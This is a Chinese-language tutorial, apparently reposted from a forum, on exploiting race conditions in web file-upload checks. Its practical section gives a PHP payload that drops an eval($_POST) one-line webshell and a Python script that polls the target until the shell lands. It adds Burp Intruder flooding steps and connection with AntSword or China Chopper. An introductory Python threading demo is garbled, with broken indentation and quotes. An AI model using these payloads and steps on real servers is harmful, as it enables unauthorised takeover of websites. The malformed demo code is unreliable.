








# 条件竞争

> 原文：[https://www.zhihuifly.com/t/topic/3599](https://www.zhihuifly.com/t/topic/3599)

# 条件竞争

> 简单的说就是并行服务器并发执行了多个线程导致了意想不到的结果。同样的，WEB应用程序因为要为很多用户服务，势必要采用多线程，但是，如果种种原因导致线程间的同步机制没处理好，那么也就会导致非预期和条件竞争的漏洞。在Web安全中，大致就是检测文件后缀，不符合条件，就删除。这种方式。所以我们使用多线程并发去访问该文件。总会碰到在删除文件这个时间段之前访问到PHP文件。一旦成功访问，就说明写了一个Shell。 攻击流程逻辑大概是这样。上传shell-不断访问shell.php shell生成马.php--删除shellp.php

## 举例

> up.py

```
#-*-coding:utf-8-*-
import threading
up = 0

def Run(threads_name):

global up

read_value = up

print “up 值为-%s 或 %d” % (str(threads_name), read_value)

up = read_value + 1

def main():

threads = []

for j in range(10):

t = threading.Thread(target=Run,args=(j,))

threads.append(t)

t.start()

for i in range(len(threads)):

threads<i>.join()

print(“结束值为 %d” % (up,)) `if **name** == ‘**main**’:

main()` 
```



## 实战中的利用

> 该系统拿到了后台地址跟管理员。后台的系统设置这里自带文件上传。但是不论是改后缀还是改格式，都会失败。



**绕过** 1.生成shell.php和bp.py



```
<?PHP echo md5(1);fputs(fopen('shell.php','w'),'<?php @eval($_POST[qwer123])?>');?> 
```

> bp.py

```
# coding:utf-8
import requests
def main():
    i=0
    while 1:
        try:
            print(i,end='\r')
            a = requests.get("http://www.0-sec.org/upload/shell.php")
            if "551207d090782423b5dce5b29c92c68d" in a.text:
                print("OK")
                break
        except Exception as e:
            pass
        i+=1
if __name__ == '__main__':
    main() 
```

打开burp.上传马。截断。发送到Intruder模块。这时候Positions里不用选择任何参数。到Payloads内。



Payloads选择为null，生成空字符。



这时候运行bp.py，同时burpsuite开启astart attack



偶尔会需要再提交一次。这时候请多试几次。直到bp.py显示OK为止。



这时候已经成功了。用蚁剑菜刀就可以直接连接一句话了。

